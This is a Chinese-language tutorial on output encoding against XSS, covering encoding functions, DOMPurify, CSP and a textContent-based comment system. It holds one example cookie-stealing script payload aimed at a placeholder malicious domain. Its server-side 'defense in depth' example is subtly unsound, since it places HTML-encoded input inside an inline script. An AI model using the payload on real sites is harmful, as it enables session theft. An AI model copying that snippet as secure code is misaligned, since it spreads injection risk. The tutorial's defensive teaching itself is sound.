

# JavaScript 输出编码

## 什么是输出编码？

输出编码是将特殊字符转换为其替代表示形式的过程，使其在显示时仍保持原意而不被解释为代码。在JavaScript安全领域，这是防止跨站脚本攻击(XSS)的关键技术之一。

当您的应用程序接收用户输入并将其显示在网页上时，如果不对这些输入进行适当的编码，恶意用户可能会注入JavaScript代码，从而在访问者的浏览器中执行。

:::warning
永远不要信任用户输入！在将任何用户提供的数据输出到页面之前，始终对其进行编码。
:::

## 为什么需要输出编码？

考虑以下场景：您的网站允许用户留言，然后显示这些留言给所有访问者。

如果用户输入：

```
你好，大家好！
```

这很安全。但如果有人输入：

```html
<script>document.location='https://恶意网站.com/?cookie='+document.cookie</script>
```

如果不进行编码，当这段文本被插入页面时，脚本会执行并可能窃取其他用户的cookie！

## 常见的编码方法

### HTML编码

HTML编码将特殊字符转换为HTML实体。例如：

```javascript
function htmlEncode(str) {
  return String(str)
    .replace(/&/g, '&amp;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#39;');
}

// 使用示例
const userInput = '<script>alert("XSS");</script>';
const encodedInput = htmlEncode(userInput);
console.log(encodedInput);
// 输出: &lt;script&gt;alert(&quot;XSS&quot;);&lt;/script&gt;
```

当这段编码后的文本被插入DOM时，浏览器会将其显示为文本而不是执行它。

### JavaScript 编码

当您需要在JavaScript字符串中包含用户输入时，应该使用JavaScript编码：

```javascript
function jsEncode(str) {
  return String(str)
    .replace(/\\/g, '\\\\')
    .replace(/'/g, '\\\'')
    .replace(/"/g, '\\"')
    .replace(/\n/g, '\\n')
    .replace(/\r/g, '\\r')
    .replace(/</g, '\\x3C')
    .replace(/>/g, '\\x3E');
}

// 使用示例
const userInput = 'user"; alert("hacked!");';
const encodedInput = jsEncode(userInput);
console.log(encodedInput);
// 输出: user\"; alert(\"hacked!\");
```

### URL编码

当用户输入需要在URL中使用时，应使用URL编码：

```javascript
// 使用内置函数进行URL编码
const userInput = "search term with spaces & special chars";
const encodedInput = encodeURIComponent(userInput);
console.log(encodedInput);
// 输出: search%20term%20with%20spaces%20%26%20special%20chars
```

## 使用现代库进行编码

虽然您可以自己编写编码函数，但使用经过验证的库通常更安全：

### DOMPurify

DOMPurify是一个强大的库，可以净化HTML并防止XSS攻击：

```javascript
// 首先需要引入DOMPurify库
// <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.3.3/purify.min.js"></script>

const userInput = '<script>alert("XSS")</script><p>一些正常文本</p>';
const clean = DOMPurify.sanitize(userInput);
console.log(clean);
// 输出: <p>一些正常文本</p>
```

### OWASP ESAPI

ESAPI (Enterprise Security API) 提供了全面的编码功能：

```javascript
// 需要先引入ESAPI库
// 这里是伪代码示例
const encoder = new ESAPI.encoder();
const userInput = '<script>alert("XSS")</script>';
const encoded = encoder.encodeForHTML(userInput);
console.log(encoded);
// 输出类似于: &lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;
```

## 编码的最佳实践

### 1. 基于上下文的编码

根据数据将被插入的位置选择正确的编码方法：



### 2. 在服务器端和客户端都进行编码

安全措施应该采用多层防御策略：

```javascript
// 服务器端例子 (Node.js)
app.get('/profile', (req, res) => {
  const username = req.query.username;
  // 服务器端编码
  const safeUsername = encodeHTML(username);
  
  res.send(`
    <script>
      // 客户端再次编码
      const user = jsEncode("${safeUsername}");
      document.getElementById('welcome').textContent = 'Welcome, ' + user;
    </script>
  `);
});
```

### 3. 使用内容安全策略(CSP)

内容安全策略是一个额外的安全层，可以限制页面可以加载的资源：

```html
<!-- 在HTML中设置CSP -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self'">
```

或通过HTTP头设置：

```
Content-Security-Policy: default-src 'self'; script-src 'self'
```

## 实际案例：评论系统

让我们看一个实际的评论系统示例，展示如何安全地处理用户输入：

```javascript
class CommentSystem {
  constructor() {
    this.commentForm = document.getElementById('comment-form');
    this.commentList = document.getElementById('comment-list');
    this.setupEventListeners();
  }

  setupEventListeners() {
    this.commentForm.addEventListener('submit', (e) => {
      e.preventDefault();
      this.handleNewComment();
    });
  }

  handleNewComment() {
    const nameInput = document.getElementById('name');
    const commentInput = document.getElementById('comment');
    
    const name = nameInput.value;
    const comment = commentInput.value;
    
    if (name && comment) {
      this.addComment(name, comment);
      nameInput.value = '';
      commentInput.value = '';
    }
  }

  // 安全地添加评论到页面
  addComment(name, comment) {
    // 创建新元素而不是使用innerHTML
    const commentDiv = document.createElement('div');
    commentDiv.className = 'comment';
    
    const authorSpan = document.createElement('span');
    authorSpan.className = 'author';
    // 使用textContent而不是innerHTML防止XSS
    authorSpan.textContent = name;
    
    const contentP = document.createElement('p');
    // 使用textContent防止XSS
    contentP.textContent = comment;
    
    commentDiv.appendChild(authorSpan);
    commentDiv.appendChild(contentP);
    this.commentList.appendChild(commentDiv);
  }
}

// 初始化评论系统
const comments = new CommentSystem();
```

:::tip
注意我们使用`textContent`而不是`innerHTML`来插入用户提供的内容。`textContent`自动将内容作为纯文本处理，而不会解释HTML标记。
:::

## 总结

输出编码是防止XSS攻击的基础技术。记住以下关键点：

1. 永远不要信任用户输入
2. 根据上下文选择适当的编码方法
3. 优先使用成熟的安全库而不是自己编写编码功能
4. 实施多层防御策略，包括CSP
5. 尽可能使用现代框架的内置保护机制

通过正确实施输出编码，您可以显著降低应用程序遭受XSS攻击的风险。

## 练习

1. 创建一个简单的留言板，确保所有用户输入都经过适当编码
2. 尝试对同一段文本应用不同类型的编码，并比较结果
3. 研究你最喜欢的JavaScript框架如何处理XSS防护

## 进一步学习资源

- OWASP XSS防护备忘单
- Mozilla开发者网络(MDN)上的Web安全文档
- Content Security Policy (CSP)指南

记住，确保应用程序安全是一个持续的过程，输出编码只是全面安全策略的一部分。